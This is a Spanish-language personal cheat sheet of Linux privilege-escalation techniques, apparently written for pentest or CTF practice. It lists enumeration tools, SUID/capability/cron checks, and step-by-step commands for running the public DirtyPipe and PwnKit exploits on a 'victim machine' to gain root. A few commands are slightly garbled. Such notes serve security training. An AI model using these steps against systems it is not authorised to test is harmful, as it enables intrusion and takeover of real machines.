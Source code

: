 # Escalacion de privilegios Linux

Tags: #Linux #Escalada #Root #Privilegios #Capabilities #SUID #LSE #PSPY #LinPEAS #CRON #Netstat #GCC

* [Hacktricks](https://book.hacktricks.xyz/welcome/readme)
* [GTFOBins](https://gtfobins.github.io/)

## Enumeracion Tools Automaticas Enumeration

-   [LSE](https://github.com/diego-treitos/linux-smart-enumeration)

Esta herramienta nos ayudar a identificar vulnerabilidades para poderla explotar y escalar privilegios.
	**lse.sh** > Mirar en modo Raw
	Copiar la url resultante en Raw 

```bash
❯ wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh # Binario que debemos de descargar
❯ chmod +x lse.                     # Le damos permisos de ejecucion 
❯ ./lse.sh                          # Ejecutamos el binario

	# h = Panel de ayuda
``` 


-   [PSPY](https://github.com/DominicBreuker/pspy)

Esta herramienta nos ayudara a identificar tareas, procesos que se están ejecutando.
	Releases > Improved troubleshooting > **pspy64** -> Binario que debemos de descargar

```bash
❯ ./pspy                            # Ejecutamos el binario 
```


* [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)     ->     Para descargar el binario debemos de ir a **'Quick Start > the releases page > linpeas.sh'**
```bash
❯ chmod 777 linpeas.sh                   # Agregamos los privilegios para poder ejecutarlo en la maquina victima
❯ ./linpeas.sh                           # Para ejecutar el binario, podremos ver los diferentes colores y ahi podremos ver en donde es mas facil poder hacer el (PE=Privilege Escalation)

	# Podremos encontrar archivos o passwds

❯ ./linux-exploit-suggester.sh           # Podemos ver los CVE potenciales
```


## Manual 

```bash
❯ sudo -l                                          # Ver que permisos tenemos en el sudoers (l=ele)

	# (ALL : ALL) ALL
	# (root) NOPASSWD: /usr/bin/find -> Puede ejecutar un comando sin necesidad de password
```

```bash
❯ su root                                          # Para convertirnos en root y debemos de proporcionar una passwd
```

```bash
❯ uname -a                                         # Miramos informacion del Kernel
```

```bash
❯ id                                               # Para ver si estamos en un grupo especial
```

```bash
❯ ./bash -p                                        # Y asi obtenemos la bash del root, esta debe tener permisos SUID con la flag 's'

	# p = privilege
```

```bash
❯ netstat -nat                                    # Podemos ver los puertos abiertos internos 

	# 27017 = Mongo el cual podemos usar para buscar usuario y passwd
```


#### gcc

* [Dirty-Pipe-Arinerron](https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit)

```bash
❯ which gcc                                       

	# /usr/bin/gcc = El Dirty-Pipe nos ayudara a sobre-escribir el ''/etc/passwd' 
	# En la pagina de Arinerron nos vamos a 'exploit.c' despues le damos a RAW y copiamos el contenido en un archivo llamado 'priv.c' en la maquina victima en el dir '/tmp'

❯ gcc privesc.c -o privesc                       # Asi lo compilamos en la maquina victima
❯ ./privesc.c                                    # Ejecutamos el binario y nos convierte en root, ya que coloca a 'aaron' como usuario root y su passwd 'aaron'
❯ su root                                        # Cambiar a usuario root con el nombre aaron seteado
```

#### Privilegios SUID

* [GTFOBins](https://gtfobins.github.io/)
* [Pkexec-PwnKit](https://github.com/berdav/CVE-2021-4034)

Podemos ver en esa pagina que comando podemos usar si encontramos un permiso SUID
```bash 
❯ find / -perm -4000 -ls 2>/dev/null               # Buscaremos por privilegios SUID, con ls = Miramos los privilegios y buscamos los de root

	# /usr/bin/pkexec = Vulnerable al PwnKit           
```

```bash
# Para el Pkexec en la maquina de atacante 
❯ git clone https://github.com/berdav/CVE-2021-4034          # Nos descargara un archivo el cual debemos de comprimir y pasarlo a la maquina victima por http
❯ zip -r comprimido.zip CVE-2021-4034/                       # Comprimimos el archivo CVE y le ponemos de nombre 'comprimido.zip' 

# Para el Pkexec en la maquina victima
❯ unzip comprimido.zip                                       # Descomprimimos el archivo .zip
❯ cd CVE-2021-4034/                                          # Nos dirigimos al directorio
❯ make                                                       # Compilamos todo lo que se encuentra ahi
❯ ./cve-2021-4034                                            # Ejecutamos el archivo .sh y con eso nos convertimos en root
```

#### Capabilities

```bash
❯ which getcap                             # Para ver si esta instalado el Getcap y mirar las capabilities

❯ getcap -r / 2>/dev/null                  # Listamos las capabilities que existan desde la raiz de forma recursiva y buscamos el comando aqui GTFOBins [GTFOBins](https://gtfobins.github.io/)

Tipos de capabilities:
	# /usr/bin/perl cap_setuid+ep = Esta capabilitie nos permite gestionar el UID y hacer que opere como root
	# /usr/bin/python3.9  cap_setuid+ep = Esta capabilitie nos permite gestionar el UID y hacer que opere como root
```


#### Tareas CRON

```bash
❯ crontab -l                         # Ver las tareas CRON (l=ele) del sistema
❯ cat /etc/crontab                   # Ver el archivo como se estan ejecutando las tareas CRON
```

* Podemos crearnos un Script Manual para ver las tareas que se están ejecutando y ver los procesos nuevos, antiguos, así como comandos y ver cual proceso nos puede ayudar a escalar privilegios. 
   Después encontramos un archivo que lo esta ejecutando root y otros lo pueden modificar 
```bash 
❯ nano file.sh

	#!/bin/bash
	
	function ctrl_c(){
		echo -e "\\n[!] Saliendo \\n"
		tput cnorm; exit 1
	}
	
	# Ctrl + c
	trap ctrl_c INT
	tput civis
	old_process="$(ps -eo command)"

	while true; do
		new_process="$(ps -eo command)"
		diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "command|procmon|kworker"
		old_process=$new_process
	done	
```

```bash
❯ systemctl list-timers              # Para ver cada cuanto tiempo se ejecuta una tarea
```

---
